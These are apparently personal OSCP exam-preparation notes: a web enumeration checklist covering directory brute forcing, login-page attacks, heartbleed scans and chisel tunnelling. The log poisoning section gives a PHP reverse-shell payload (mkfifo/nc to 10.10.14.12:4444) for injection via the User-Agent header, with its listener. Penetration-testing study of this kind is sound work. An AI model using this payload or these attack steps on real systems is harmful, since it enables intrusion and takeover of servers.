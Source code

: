 # Enumeration checklist

## Checklist[](https://fareedfauzi.gitbook.io/oscp-playbook/services-enumeration/http-s/enumeration-checklist#checklist)

- [ ] Checkout what the web display
- [ ] Read entire pages. Enumerate for emails, names, user info etc.
- [ ] Directory discovery
- [ ] Enum the interface, version of CMS? Server installation page?
- [ ] Potential vulnerability? 
	- [ ] [LFI](obsidian://open?vault=Nicks%20OSCP%20Notes&file=Cheatsheets%2FCommon%20Exploits%2FLFI), RFI
	- [ ] [XSS](obsidian://open?vault=Nicks%20OSC&file=Cheatsheets%2FTools%2Fxss)
	- [ ] [Upload](obsidian://open?vault=Nicks%20OSC&file=Cheatsheets%2FCommon%20Exploits%2FUpload)
- [ ] Default web server page, version information
- [ ] View source code
    - [ ]  Hidden Values
    - [ ] Developer Remarks
    - [ ] Extraneous Code
    - [ ]  Passwords
- [ ] Robots.txt
- [ ]  Web scanning
- [ ] If theres an upload, set up responder to listen and direct the upload to an impacket-smb share

## Web Scanning[](https://fareedfauzi.gitbook.io/oscp-playbook/services-enumeration/http-s/enumeration-checklist#web-scanning)

​[Web Scanning](obsidian://open?vault=Nicks%20OSCP%20Notes&file=Cheatsheets%2FProtocols%2FHTTP(S)%2FHTTP)​

## Brute forcing HTTP(s) directories and files[](https://fareedfauzi.gitbook.io/oscp-playbook/services-enumeration/http-s/enumeration-checklist#brute-forcing-http-s-directories-and-files)

​[Directory Discovery](obsidian://open?vault=Nicks%20OSCP%20Notes&file=Cheatsheets%2FProtocols%2FHTTP(S)%2FHTTP)
```
dirsearch -r -u -w /usr/share/wordlist/seclist....
```

## HTTPs certification[](https://fareedfauzi.gitbook.io/oscp-playbook/services-enumeration/http-s/enumeration-checklist#https-certification)

Might have username

## Script to preview the website from IP in html[](https://fareedfauzi.gitbook.io/oscp-playbook/services-enumeration/http-s/enumeration-checklist#script-to-preview-the-website-from-ip-in-html)

Create a list of the IP and Extract PNG
```
for ip in $(cat web-ip.txt | grep 80 | grep -v "Nmap" | awk '{print $2}'); do cutycapt --url=$ip --out=$ip.png;done
```

Make it HTML pngtohtml.sh
```
#!/bin/bash
# Bash script to examine the scan results through HTML.
echo "<HTML><BODY><BR>" > web.html
ls -1 *.png | awk -F : '{ print $1":\n<BR><IMG SRC=\""$1""$2"\" width=600><BR>"}' >> w
eb.html
echo "</BODY></HTML>" >> web.html
```
## Creating wordlist from webpage[](https://fareedfauzi.gitbook.io/oscp-playbook/services-enumeration/http-s/enumeration-checklist#creating-wordlist-from-webpage)

- cewl


## Redirecting webpage automatically?[](https://fareedfauzi.gitbook.io/oscp-playbook/services-enumeration/http-s/enumeration-checklist#redirecting-webpage-automatically)

- noredirect plugin

## Login page[](https://fareedfauzi.gitbook.io/oscp-playbook/services-enumeration/http-s/enumeration-checklist#login-page)

- [ ]  View source code
- [ ]  Use default password
- [ ] Brute force directory first (sometime you don't need to login to pwn the machine)
- [ ] Search credential by bruteforce directory
- [ ] bruteforce credential
- [ ] Search credential in other service port
- [ ] Enumeration for the credential
- [ ] Register first
- [ ] SQL injection
- [ ] XSS can be used to get the admin cookie
- [ ] Bruteforce session cookie
## Identify WAF[](https://fareedfauzi.gitbook.io/oscp-playbook/services-enumeration/http-s/enumeration-checklist#identify-waf)

wafw00f

## Find version vulnerability?[](https://fareedfauzi.gitbook.io/oscp-playbook/services-enumeration/http-s/enumeration-checklist#find-version-vulnerability)

- Google


## HTTPS heartbleed[](https://fareedfauzi.gitbook.io/oscp-playbook/services-enumeration/http-s/enumeration-checklist#https-heartbleed)

- Scan for heartbleed
```
sslscan $ip:443
nmap -sV --script=ssl-heartbleed $ip
```   

## Password?[](https://fareedfauzi.gitbook.io/oscp-playbook/services-enumeration/http-s/enumeration-checklist#password)

When presented with an enter credentials page, the first thing I try is common credentials (admin/admin, admin/password).

If that doesn’t work out, I look for default credentials online that are specific to the technology. Last, I use a password cracker if all else fails.

## Log poisoning[](https://fareedfauzi.gitbook.io/oscp-playbook/services-enumeration/http-s/enumeration-checklist#log-poisoning)

From LFI to RCE

If you get local file inclusion for log, you maybe can log poisoning the log

Change user agent by intercept in burp to this to get reverse shell
```
nc -lnvp 4444
```
```
<?php exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 4444 >/tmp/f') ?>
```


# View Internal Website
Must use chisel

proxychains:
```c
socks5 127.0.0.1 1080
```

```c
chisel server -p 9000 --reverse (kali chisel server)
```

```c
chisel client KALI_IP:9000 R:8000:127.0.0.1:8000 (client forwarding port 8000 to  kali, if different interal ip change the last 8000)
```